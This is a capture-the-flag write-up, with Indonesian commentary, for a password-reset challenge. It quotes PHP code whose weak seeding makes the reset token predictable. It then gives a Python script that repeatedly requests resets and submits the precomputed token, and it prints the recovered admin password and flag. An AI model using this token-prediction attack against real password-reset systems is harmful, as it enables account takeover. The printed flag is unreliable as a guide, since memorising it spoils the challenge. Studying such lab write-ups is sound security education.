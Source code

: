 <h1>Password reset reloaded</h1>
<h3>Decription</h3>
<label>http://challenges.ringzer0ctf.com:10120/</label>
<h3>Solution</h3>
<label>cek source code</label>

```php
<?php // Using PHP7.0
$hSql = new MYSQL_HANDLE();
$success = "";
$size = 32;

if(	URL_HANDLE::GetInstance()->post->username == "admin" && 
	URL_HANDLE::GetInstance()->post->password == "XXXXXXXXXXXXXXXX") {

	$success = '<div class="flag">FLAG-XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</div>';	
} else {
	if(isset($_POST['reset_username'])) {
		$token = "";
		$seed = (int)bin2hex(openssl_random_pseudo_bytes($size / 2));
		srand($seed);
		
		for($i = 0; $i < 16; $i++) {
			$randomDigit = (string)rand() % 10;
			$token .= "," . $randomDigit;
		}
		$token = str_replace(",", "", $token);
		
		$success = '<div class="success">Reset password link has been sent to admin@youdontownthisemailagain.com. Please follow the link http://ringzer0team.com/challenges/120/?k=[your 16 digits code] soon as possible your token expired in 1 hour.</div>';
		$hSql->FastQuery('DELETE FROM chal_120 WHERE ip_addr = ?', array($_SERVER['REMOTE_ADDR']));
		$hSql->FastQuery('INSERT INTO chal_120 VALUES (?,?,?)', array($_SERVER['REMOTE_ADDR'], $token, time() + 3600)); 
	}
	if(URL_HANDLE::GetInstance()->get->k != null) {
		$result = reset($hSql->FastQuery('SELECT * FROM chal_120 WHERE ip_addr = ? AND recovery_key = ? ', array($_SERVER['REMOTE_ADDR'], URL_HANDLE::GetInstance()->get->k)));
		if($hSql->RowCount() != 0) {
			if($result->expired_time > time()) {
				$success = '<div class="success">Here\'s your new password: XXXXXXXXXXXXXXXX</div>';
			} else {
				$success = '<div class="error">Expired recovery key!</div>';
			}
		} else {
			$success = '<div class="error">Invalid recovery key!</div>';
		}
	}
}
?>
```
<label>seeder generate yaitu 16 bytes random bytes yg diconvert ke hex dan diconvert lagi ke integer, dan kemungkinan seedernya paling sering muncul yaitu=0</label>

```php
$success = "";
$size = 32;
$seed = (int)bin2hex(openssl_random_pseudo_bytes($size / 2));
srand($seed);
echo "Seed: " . $seed . "<br>";
$token = "";
for($i = 0; $i < 16; $i++) {
    $randomDigit = (string)(rand() % 10);
    $token .= "," . $randomDigit;
}
$token = str_replace(",", "", $token); 
echo "Token: " . $token . "<br>";  #hasil 3675356291270936
```
<h5>Harus PHP 7.0</h5>
<label>cari dan generate token dari seeder = 0 disini</label>

```python3
import requests

sess = requests.Session()
url_reset = 'http://challenges.ringzer0ctf.com:10120/'
url_verify = 'http://challenges.ringzer0team.com:10120/?k=3675356291270936'
for i in range(100):
    data = {
            "reset_username":"admin",
        }

    res = sess.post(url_reset,data=data)
    res1 = sess.get(url_verify).text
    if "Invalid recovery key" not in res1:
        print(res1)
```
<label>bruteforce request jika token = 3675356291270936 hingga didapatkan password</label>
<pre>
Username : admin
Password : CrytoIsCool!1337
</pre>
<h3>Flag</h3>
<pre>
FLAG-LPmaGkfnDHrsMoOyHA7nIjOPRy
</pre>
